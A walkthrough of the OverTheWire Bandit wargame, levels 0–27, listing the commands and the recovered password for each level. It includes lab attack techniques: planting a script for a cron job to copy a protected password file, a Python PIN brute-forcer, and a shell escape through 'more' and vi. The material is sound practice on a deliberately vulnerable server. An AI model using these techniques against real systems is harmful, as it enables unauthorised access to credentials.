# Level 0

Using **ssh** command to connect to the server with the user **bandit0** over **port 2220**.

```console
$ ssh -p 2220 bandit0@bandit.labs.overthewire.org
```

The password is **bandit0**.

# Level 1

The command

```console
$ ls
```

gives us the files in the current directory. It prints out that there is a file named **readme**. Using

```console
$ cat readme
```

command, we get what that file holds inside.


The password is **ZjLjTmM6FvvyRnrb2rfNWOZOTa6ip5If**

# Level 2

We have a file named ' - ' . If we do

```console
$ cat -
```

it won't work because it's expecting standard input as the dashes are reserved for the parameters. What we can do is

```console
$ cat ./-
```

The ' . ' means current directory. Doing so, we are providing the path for the file we want to cat.


The password is **263JGJPfgU6LtdEvgfWU1XP5yac29mFx**

# Level 3

Spaces are special characters that can be used for other things not like the standard alphanumerical characters. To make the machine understand that our intention with spaces is the actual visible space, we write before them a backslash ' \\ ' .

```console
$ cat spaces\ in\ this\ filename
```


The password is **MNk8KNH3Usiio41PRUEoDFPqfxLPlSmx**

# Level 4

We have a folder called **inhere** that contains the password file. So we need to change our directory to it with the following command

```console
$ cd inheare/
```

The hint says that the file is hidden. Hidden files are the ones that their names start with " . " and to see them we use the command

```console
$ ls -al
```

The parametre **-a** is enough to do the job but I like to list my files each on its own line so I add the parameter **-l**.


The password is **2WmrDFRmJIq3IPxneAaMGhap0pFhF3NJ**

# Level 5

The hint says that the targeted file is the only human-readable file in **inheare/** folder that means that when we proceed **file** command on it, we get **ASCII text**.
So the trick is to run that command recursivly on all the files and grab the one that outputs **ASCII text**.

```console
$ cd inheare/
$ find -type f -exec file {} \; | grep text
$ cat ./-file07
```

Okay let's break that command down:

- " **find -type f -exec file {} \\;** " is responsible of listing the type of each file :
  - **find** is the command to find files or directories based on filters.
  - **-type** parameter filter the type. Since we're looking for files we put **f**.
  - **-exec** execute a seperate command on each found file.
    - **file** is the command.
    - **{}** is the argument placeholder : for each file treated, **{}** gets replaced with the file name.
    - " **\\;** " marks the end of the command. We wrote **\\** because -like we stated earlier- " **;** " is a special character and shell would recognize it as a sperator and reads the rest of the line as another command.
- " **| grep text** " filter the results to output only the ASCII file :
  - " **|** " pipes the output of the left part to the input of the right path. So basically we get the results of the previous job and set it as the input of the **grep** command.
  - **grep** shows specific parts of a text based on patterns and filterings we provide to it.
  - **text** is the filtering we are doing since we're only looking for files that output " **ASCII text** " as a result.


The password is **4oQYVPkxZOOEOO5pTW81FB8j8lxXGUQw**

# Level 6

It is a file so **-type f**, has a size of 1033 byte so **-size 1033c** (**c** stands for byte), **not** executable so **! -executbale**.

```console
$ cd inheare/
$ find -type f -size 1033c ! -executable
$ cat ./maybehere07/.file2
```


The password is **HWasnPhtq9AVKe0dmk45nxy20cvUa6EG**

# Level 7

The hints says that the file is somewhere in the server so we search in " **/** " directory which represents the very root of the server. We filter the **-user bandit7**, the **-group bandit6** and the **-size 33c**.

```console
$ find / -user bandit7 -group bandit6 -size 33c -type f
```


As we can see, the file is located in **/var/lib/dpkg/info/** under the name **bandit7.password**.

The password is **morbNTDkSW6jIlUc0ymOdMaLnOlFVAaj**

# Level 8

We simply cat the content and grep the keyword **millionth**.

```console
$ cat data.txt | grep millionth
```


The password is **dfwvzFQi4mU0wfNbFOe9RoWskMLg7eEc**

# Level 9

When we talk about occurence, what comes to mind is **sorting**, **minimizing** then **filtering**.

```console
$ sort data.txt | uniq -c | grep "1 "
```

- **sort** sorts the lines in the file alphabetically.
- **uniq** minimize adjacent identical lines and replace them with one instance. We add **-c** parameter to prefix each line the count of its original occurence.
- **grep "1 "** greps the line that starts with "**1**" which means with one occurence. Don't forget the space in the string after **1** otherwise it will outputs the lines with 10-19 occurence.


The password is **4CKMh1JI91bUIZZPXDqGanal4xvAg0JM**

# Level 10

Since it's looking for readable line, the command **strings** is super handy here since it only output the human-readable characters of a file. We follow it with **grep =** to look for strings that comes after few "**=**" as mentioned in the hint.

```console
$ strings data.txt | grep =
```



The password is **FGUW5ilLVJrxX9kMYMmlN4MgbpfMiqey**

# Level 11

The content of the file is coded in base64. so we decode it with **base64** command.

```console
$ cat data.txt | base64 -d
```



The password is **dtR173fZKb0RRsDFSGsg2RWnpNVj3qRr**

# Level 12

The content of the file is ciphered in ROT13 or known as Ceasar Cipher which is based on replacing each letter with with the one that follow it by 13 index.

```console
$ cat data.txt
```

We can decrypt it with **tr** command but it would be eaiser and practical to use **cyberchef.org** for this job.



The password is **7x16WNeHIi5YkIhWsfFIqoognUTyj9Q4**

# Level 13

First, we need to create a temporary directory so it we can do our work in it and can be deleted after we end the session.

```console
$ mkdir /tmp/njeh
$ cp data.txt /tmp/njeh/
$ cd /tmp/njeh/
```

The file is a hexdump. So we use **xxd** command with the parameter **-r** to reverse the process and get the original file and output the result with the name **flag**.

```console
$ xxd -r data.txt flag
```

From now on, the files we get are compressed files with various extensions. Each extension will have its own command and process. We get the extension of the compressed file with **file** command and we start our work :

- for **gzip** files, we rename the file to add **.gz** extension and decompress it with **gunzip** command.

```console
$ mv flag flag.gz
$ gunzip flag.gz
```

- for **bzip2** files, we rename the file to add **.bz2** extension and decompress it with **bunzip2** command.

```console
$ mv flag flag.bz2
$ bunzip2 flag.bz2
```

- for **tar** files, we decompress them with **tar -xf** command

```console
$ tar -xf flag
```



The password is **FO5dwFsc0cbaIiH0h8J2eUks2vdTDwAn**

# Level 14

We have an SSH private key file that will get us to connect to **level 14** machine.



We need to **exit** to our machine and copy that file with **scp** command to our local directory which is " . ".

```console
$ scp -P 2220 bandit13@bandit.labs.overthewire.org:sshkey.private .
```


Then we connect as user **bandit14** using the private key.

```console
$  ssh -i sshkey.private -p 2220 bandit14@bandit.labs.overthewire.org
```



And finally we get the password from the path provided by the hint.

```console
$ cat /etc/bandit_pass/bandit14
```



The password is **MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS**

# Level 15

A simple netcat connection to our localhost will do the job.

```console
$ nc localhost 30000
```


After typing the previous password and getting the new password, we can disconnect and get back to our shell with **Ctrl + C** on **Windows** or **Cmd + C** on **MacOS**

The password is **8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo**

# Level 16

Since it requires SSL/TLS encryption, we can connect using **openssl s_client** command

```console
$ openssl s_client -connect localhost:30001
```


After typing the previous password and getting the new password, we can disconnect and get back to our shell with **Ctrl + C** on **Windows** or **Cmd + C** on **MacOS**

The password is **kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx**

# Level 17

We use **nmap** command to scan the ports and find our target.

```console
$ nmap -T4 -sV -p 31000-32000 localhost
```

- **-T4** sets the speed fo scanning to level 4. **-T0** for super stealthy and thus super slow and **-T5** for insanely fast. In real-world case, it's recommanded to go stealthy otherwise we will be detected and get our IP address banned but since we are pentesting a machine designed for pentesting, we can save some time and go crazy. We didn't set it to **-T5** bacause it can miss some open ports.
- **-sV** print out the service version of each scanned port based on nmap's data base. This way, we can know which port works with **ssl**.
- **-p** specifies the ports to be scanned. We set the interval **31000-32000**

As we can see, we have 6 open ports among them 2 run **ssl** service which are 31518 and 31790. If we look carefully, port 31518 runs **echo** service which prints out whatever we tell it and that's exactly what's stated in the hint. So let's proceed with port 31790.



As we did earlier, we use **openssl c_client** command. This time, we add **-quiet** parameter because the password we will type starts with the letter "**k**" which will trigger **KEYUPDATE**.

```console
$ openssl s_client -connect localhost:31790 -quiet
```


It printed out an **RSA PRIVATE KEY**. Obviously, we're gonna use it to access it to **level 17** as we did previously on **level 14**. So let's copy this on a file locally and get the job done.

```console
$ echo " put the RSA key here " > bandit.private
$ chmod 600 bandit.private
$ ssh -i bandit.private  -p 2220 bandit17@bandit.labs.overthewire.org
```



- **echo "something" > FileName** writes the "something" in the file. If the file doesn't exits, it gets created. If it does, it deletes its content and write the "something". If you want to append the content, use **>>** instead of ">".
- **chmod 600** changes the permission of tthe file so that only its owner can read it and write on it. **SHH** requires strict permission configurations so it can work

**Side Note** : You may notice that screenshots changed a bit. That's because I switch to **Linux**. Using **Windows**' **PowerShell**, I faced issues changing the file's permission configurations because it requires other commands that I'm not familiar with. After googling them, I felt sick and went stright back to my comfort place. Thank god for Linux !

```console
$ cat /etc/bandit_pass/bandit17
```



The password is **EReVavePLFHtFlFsjn3hyzMlvSuSAcRD**

# Level 18

The password is the difference between two files. Naturally, we use the command **diff**

```console
$ diff passwords.new passwords.old
```



"**<**" represents the first typed file and "**>**" represents the second.

The password is **x2gLTTjFwMOhQ8oWNbMN362QKxfRqGlO**

# Level 19

We can't log into this level because, as the hint stated, the file **.bashrc** has been altered so that we log out the second we log in. What we can do is copying the file that holds the password, which is named **readme**, into our machine and read it with ease.

```console
$ scp -P 2220 bandit18@bandit.labs.overthewire.org:readme bandit
$ cat bandit
```



The password is **cGWpMaKXVwDUNgPAVJbWYuGHVn9zl3j8**

# Level 20

As expected, we don't have permission to read the file.

```console
$ cat /etc/bandit_pass/bandit20
```



Let's follow the hint and run the binary without arguments. To run a binary, we write **./** before it.
The description says it runs commands as another user. From the name of the binary, we can guess the user it mentions is **bandit20**. From the example th description gave, we put command to run as an argument to the binary.

```console
$ ls
$ ./bandit20-do
$ ./bandit20-do cat /etc/bandit_pass/bandit20
```



The password is **0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO**

# Level 21

Running the binary, it tells us that is connects to localhost via a port specified as argument. When it reads the current password from the connection, it will gives us the new password. So what we need to do is setting up an **nc** connection with an arbitrary port and echo the password in its input to be written after connecting

```console
$ echo "0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO" | nc -l localhost 31000 &
```



- "**-l**" tells it to listen for incmoing connections and not start one because the communication will be started by the binary
- "**&**" sends the communication to the background and gives us the shell back. Without it, the communication interface will persist and wait for our input.

The password is **EeoULMCra2q0dSkYj561DX7s1CpBuOBt**

# Level 22

Checking the content of **/etc/cron.d/**, we find a cronjob file named after **bandit 22**. It gave reference to a **.sh** file. Reading its content, we find out that it moves the content of **/etc/bandit_pass/bandit22**, which holds the next password, to some other file. So naturally, we get our password from that file.

```console
$ ls /etc/cron.d
$ cat /etc/cron.d/cronjob_bandit22
$ cat /usr/bin/cronjob_bandit22.sh
$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```



The password is **tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q**

# Level 23

Following the same process, we find out that they are naming the file after the md5 hash of some phrase.

```console
$ ls /etc/cron.d
$ cat /etc/cron.d/cronjob_bandit23
$ cat /usr/bin/cronjob_bandit23.sh
```



Let's explain further what that bash script is actually doing.
First, it's getting the result of the command **whoami** and setting it to the variable **myname** so when we run this script, **myname** will hold the value **bandit22**.
Next, it's setting the output of some pipelined comand to the variable target. That piplined command can be devided into :

- **echo I am user $myname** : What we know is that the command **echo** prints out the same message. But in this case it is a bit different. We specified a variable this time so its echoed version will be its value. So, the ouutput will be **I am user bandit22**.
- **| md5sum** : That output is the input of **md5sum** command which will gives us its MD5 hash value.
- **cut -d ' ' -f 1** : The output of **md5sum** command is in this format : md5 hash + a blank space + the character " - " _(We are reading it from an echo output. Normally, **md5sum** works with files and their contents so that - would be replaced with the file name)_. Since we need to get the first part of the output, we use **cut** command to devide it based on the blank space as a delimiter that's why they typed " **-d ' '** " then we retrieve the first part that's why they typed " **-f 1** ".

Finally, it copies the password into a file named after the **$mytarget** value under **/tmp** directory.

So to solve this, we need to replace the variable **$myname** with the username of the next level which should be **bandit23**. So the file name should be the MD5 hash of the phrase **"I am user bandit23"**.



The password is **0Zf11ioIjMVN551jX3CmStKLYqjk54Ga**

# Level 24

Following the same process, we find the following script

```console
$ ls /etc/cron.d
$ cat /etc/cron.d/cronjob_bandit24
$ cat /usr/bin/cronjob_bandit24.sh
```



Basically, what this bash script doing is executing every file in **/var/spool/bandit24/foo** (took the liberty to change $myname variable with the expected value) except for " . " which represents the current directory and " .. " which represents the parent directory and ensuring that the file being executed has **bandit23** as its owner which is in our favor since we are currently loged in as **bandit23**. Finally, it removes all the files.
Based on the cron file, this script is executed every minute (\* \* \* \* \* means every minute of every hour of every day of every month) so to exploit this, we need to create a bash file in that directory that can export the content of **/etc/bandit_pass/bandit24** into another file that we can access. The file will be executed the next minute.

First, let's create a temporary directory to work on and let's create our bash script with **nano**.

```console
$ mkdir /tmp/flag24
$ cd /tmp/flag24
$ nano script.sh
```



We want the password for level 24 which we know it exists in the file **/etc/bandit_pass/bandit24**. So let's cat it out into a file in our temp directory. Don't forget to **shebang** the script.

```console
$ #!/bin/bash
$ cat /etc/bandit_pass/bandit24 > /tmp/flag24/password24
```

Exit with saving b typing Ctrl+X (or Cmd+X), y, then hitting Enter.



Now we need to edit some permissions. We need the script to be executed by everyone not just us (as bandit23). Also, we need this current directory to be overwritten by everyone so that the file **password** can be created. Let's check it with **ls -al**.

```console
$ chmod 777 script.sh
$ chmod 777 .
$ ls -al
```

Exit with saving b typing Ctrl+X (or Cmd+X), y, then hitting Enter.



Now let's copy this script to that directory and wait for it to be executed.

```console
$ cp script.sh /var/spool/bandit24/foo
```

After a minute, we can see the **pasword24** file is added into our directory and it holds the password.

```console
$ ls
$ cat password24
```



The password is **gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8**

# Level 25

Here, we will write a python script with **nano** command into a file named **python.py** to brute force every pincode from 0000 to 9999.

```python
#!/usr/bin/env python3
# Specify the Python interpreter to use (Python 3)
import socket
# Import the socket library for network communication

HOST = "127.0.0.1"
# Define the target host as localhost (IP address 127.0.0.1)
PORT = 30002
# Define the target port number where the server is listening
PREFIX = "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"
# Define the fixed prefix for the message which is the current level

# Connect to server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Create a new TCP socket object for IPv4 communication
s.connect((HOST, PORT))
# Establish a connection to the server at the specified host and port

# Print welcome message (if any)
print(s.recv(2048).decode())
# Receive up to 2048 bytes from the server, decode to string, and print the welcome message

# Brute-force pincode
for pin in range(10000):
# Loop through numbers 0 to 9999 to generate all possible four-digit pincodes
    pincode = f"{pin:04d}"
    # Format the current number as a four-digit string (e.g., 0000, 0001, ..., 9999)
    message = f"{PREFIX} {pincode}\n"
    # Construct the message by combining the prefix, a space, the pincode, and a newline
    s.sendall(message.encode())
    # Encode the message to bytes and send it to the server
    response = s.recv(1024).decode().strip()
    # Receive up to 1024 bytes from the server, decode to string, and remove trailing whitespace
    if "Wrong" not in response:
    # Check if the response does not contain "Wrong" to indicate a successful attempt
        print(f"Success! PIN: {pincode}, Response: {response}")
        # Print the successful pincode and server response
        break
        # Exit the loop upon finding the correct pincode
    print(f"Wrong PIN: {pincode}")
    # Print the pincode that resulted in a "Wrong" response
s.close()
# Close the socket connection to the server
```

Now let's execute it and wait for the success message.

```console
$ python3 ./script.py
```



The password is **iCi86ttT4KSNe1armKiwbQNmB3YJP3q4**

# Level 26

Afer logging in with **bandit25**, we find **RSA private key** to log in with **bandit26**. Doing so, we get logged out immediatly. The hints is mentioning something about **bandit26** not using **/bin/bash** as a shell so let's check it by typing

```console
$ cat /etc/passwd | grep bandit26
$ cat /usr/bin/showtext
```


As we can see, it uses **/usr/bin/showtext** and that scripts just throws a text before exiting but interestingly it uses **more** command. Let's focus on that. After some research, I found out that I can open **vi editor** from the **more prompt**. But I need to trigger that promt by minimizing the window and enabeling the **more** functionality.

After connecting, press **V** to get to open **vi editor** and **open** the **/etc/bandit_pass/bandit26** file to read its content by proceeding it with "**:e**".

```console
:e /etc/bandit_pass/bandit26
```



The password is **s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ**

# Level 27

Here, we need to more than simply reading a file. Here, we are going to gain **shell** !
